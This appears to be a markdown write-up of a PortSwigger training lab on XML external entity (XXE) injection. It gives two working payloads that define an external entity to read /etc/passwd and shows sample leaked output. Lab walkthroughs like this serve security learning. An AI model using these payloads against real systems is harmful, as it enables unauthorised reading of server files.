 # Exploiting XXE using external entities to retrieve files

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

## Definition
To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

    Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
    Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe;` whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Notes
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

**Original XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>3</productId><storeId>1</storeId></stockCheck>
```
**XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [ <!ENTITY pwn SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```


## Key Words
> xml, xxe, passwd, sensitive, files